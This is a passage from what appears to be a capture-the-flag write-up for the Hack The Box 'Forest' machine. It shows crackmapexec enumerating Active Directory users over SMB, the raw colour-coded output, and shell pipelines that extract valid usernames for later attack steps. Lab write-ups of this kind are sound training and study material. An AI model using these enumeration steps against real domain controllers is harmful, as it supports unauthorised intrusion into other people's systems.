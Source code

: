 Port 53 and 88 were enumerated, but they did not return anything fruiter. 

**SMB 139/445**
Got domain name from smb.
Color coding is awesome. It is terrible for reporting. 


```
 crackmapexec smb 10.10.10.161 --users |tee smb.users

[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[34m[*][0m Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[31m[-][0m Error enumerating domain users using dc ip 10.10.10.161: NTLM needs domain\username and a password
...snip...

[33mhtb.local\HealthMailboxfd87238           [0m
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[33mhtb.local\HealthMailboxb01ac64           [0m
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[33mhtb.local\HealthMailbox7108a4e           [0m
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[33mhtb.local\HealthMailbox0659cc1           [0m
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[33mhtb.local\sebastien                      [0m
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[33mhtb.local\lucinda                        [0m
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[33mhtb.local\svc-alfresco                   [0m
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[33mhtb.local\andy                           [0m
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[33mhtb.local\mark                           [0m
[1m[34mSMB[0m         10.10.10.161    445    FOREST           [1m[33mhtb.local\santi                          [0m

```

Using awk and sed, tailored the output and extracted the valid usernames. 

```
cat smb.users|awk -F" " '{print$5}'|grep htb|sed 's/htb.local\\/\n/'> users.txt



┌──(kali㉿kali)-[~/HTB/Forest]
└─$ cat users.txt|grep -v root |grep -v Health* |grep -v SM* > valid_users.txt 


──(kali㉿kali)-[~/HTB/Forest]
└─$ cat valid_users.txt  
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
sebastien
lucinda
svc-alfresco
andy
mark
santi



```
